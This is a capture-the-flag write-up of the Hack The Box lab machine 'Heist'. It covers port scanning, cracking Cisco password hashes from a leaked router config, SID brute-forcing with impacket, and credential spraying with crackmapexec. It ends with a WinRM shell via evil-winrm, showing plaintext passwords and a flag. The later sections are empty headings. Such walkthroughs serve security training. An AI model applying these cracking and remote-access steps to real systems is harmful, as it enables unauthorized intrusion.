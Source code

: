 # Heist

## Information Gathering
10.10.10.149
Heist

## Enumeration / Scanning
Begin with a basic nmap scan<br>
```bash
# Nmap 7.92 scan initiated Fri Jan 14 17:03:34 2022 as: nmap -p- -sC -sV -oN nmap/heist-all.nmap -Pn 10.10.10.149
Nmap scan report for heist.htb (10.10.10.149)
Host is up (0.029s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
| http-title: Support Login Page
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-01-14T22:22:03
|_  start_date: N/A
|_clock-skew: 14m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 14 17:07:41 2022 -- 1 IP address (1 host up) scanned in 246.81 seconds

```

There is a webserver so I'm going to also run Nikto and Gobuster while I manual spider with BurpSuite<br>
```bash
nikto -host 10.10.10.149 -Format txt -o nikto/heist.nikto

- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.149
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/7.3.1
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Cookie PHPSESSID created without the httponly flag
+ OPTIONS Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ OPTIONS Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST 
+ GET /login.php: Admin login page/section found.
```

```bash
gobuster dir -u http://10.10.10.149 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x php,html,asp,aspx,txt -o gob/heist.gob
/images               (Status: 301) [Size: 150] [--> http://10.10.10.149/images/]
/index.php            (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 2058]
/Images               (Status: 301) [Size: 150] [--> http://10.10.10.149/Images/]
/issues.php           (Status: 302) [Size: 16] [--> login.php]
/css                  (Status: 301) [Size: 147] [--> http://10.10.10.149/css/]
/Index.php            (Status: 302) [Size: 0] [--> login.php]
/Login.php            (Status: 200) [Size: 2058]
/js                   (Status: 301) [Size: 146] [--> http://10.10.10.149/js/]
/Issues.php           (Status: 302) [Size: 16] [--> login.php]
/attachments          (Status: 301) [Size: 155] [--> http://10.10.10.149/attachments/]
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.10.149/IMAGES/]
/INDEX.php            (Status: 302) [Size: 0] [--> login.php]
/CSS                  (Status: 301) [Size: 147] [--> http://10.10.10.149/CSS/]
/JS                   (Status: 301) [Size: 146] [--> http://10.10.10.149/JS/]
/Attachments          (Status: 301) [Size: 155] [--> http://10.10.10.149/Attachments/]
/LogIn.php            (Status: 200) [Size: 2058]
/LOGIN.php            (Status: 200) [Size: 2058]
```

## Exploitation
Upon entering the webpage, there is a login page. Trying a few default credentials yields no returns. There is a 'login as guest' feature which takes me directly to a conversation thread between 'Hazard' and 'Support Admin'. Hazard links an attachment file which looks like keystrokes for configuring a Cisco router. 
```
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```
A looked at <a href="https://www.cisco.com/c/en/us/td/docs/routers/access/800M/software/800MSCG/routconf.html">this</a> page to get a sense of what is going on here. <b>enable secret</b> specifies a password to prevent access to the router.
I ran this in john and cracked the password after a few minutes.<br>
```bash
john secret.txt --wordlist=/usr/share/wordlist/rockyou.txt --format=md5crypt-long
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)     
1g 0:00:03:00 DONE (2022-01-14 13:16) 0.005535g/s 19614p/s 19614c/s 19614C/s stealthphantom..stealth1.1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Using <a href="">this</a> website allows me to crack passwords in a Cisco format.
```
0242114B0E143F015F5D1E161713:$uperP@ssword
02375012182C1A1D751618034F36415408:Q4)sJu\Y8qz*A3?d
```


Because 'Hazard' configured their Cisco router, it's likely that this is Hazards password. These credentials are probably not for the webserver as you need an email and password to login however, there is a SMB server listening on port 445 according to the nmap scan. Trying to list the shares with the credentials yields results<br>
```bash
smbcleint -L \\\\10.10.10.149\\ -U Hazard
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```
Using these same credentials grants access to the IPC$ share<br>
```bash
smbclient \\\\10.10.10.149\\IPC$ -U Hazard
```
However, after connecting and trying to perform further enumeration I get <b>NT_STATUS_INVALID_INFO_CLASS listing \*</b>

There also an RPC server on port 135 as seen in the nmap scan. Using rpcclient and using Hazards credenttials yields a rpc shell:
```bash
rpcclient -U Hazard 10.10.10.149
```
I'm not too familiar with enumerating rpc so I used <a href="https://www.hackingarticles.in/active-directory-enumeration-rpcclient/">this</a> resource. I'm also using the <a href="https://github.com/SecureAuthCorp/impacket">impacket</a> suite for testin SMB and RPC. After procedurally trying Python scripts, I found some promising information.
```bash
python3 lookupsid.py hazard:stealth1agent@10.10.10.149

Impacket v0.9.25.dev1+20220105.151306.10e53952 - Copyright 2021 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
This gives us a lot of usernames to work with. Trying different credential combinations with what is available gives a match <b>Chase:Q4)sJu\Y8qz\*A3?d</b>.<br>
There isn't anything left for us to do for port 80,135 and 445. Moving onto 5985, this is a WinRM service. Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machiens over HTTP(S). For starters, I can use <b>crackmapexec</b> to see what users are capable of accessing this box remotely. 
```bash
crackmapexec winrm 10.10.10.149 -u Chase -p "Q4)sJu\Y8qz*A3?d"

WINRM       10.10.10.149    5985   NONE             [*] None (name:10.10.10.149) (domain:None)
WINRM       10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [+] None\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```
Turns out Chase can access this machine through WinRM. Now in order to access the machine, I can use evil-winrm.
```bash
evil-winrm -u Chase -p "Q4)sJu\Y8qz*A3?d" -i 10.10.10.149
*Evil-WinRM* PS C:\Users\Chase\Documents>
```
And we get a shell!
```
user.txt:46c7bb70691b10bc06c79c00a8ab579b
```

## Privilege Escalation
After gaining foothold, attempt to expand access to a system. Two types of escalation: Horizontal and verticle. Horizontal is accessing other accounts within the same permission group. Verticle escalation is that of another permission group. 

## Post Exploitation
What other hosts can be exploited? (pivoting)<br>
What other additional information can we gather from the host now that we are privileged user?<br>
Covering your tracks.<br>
Reporting<br>


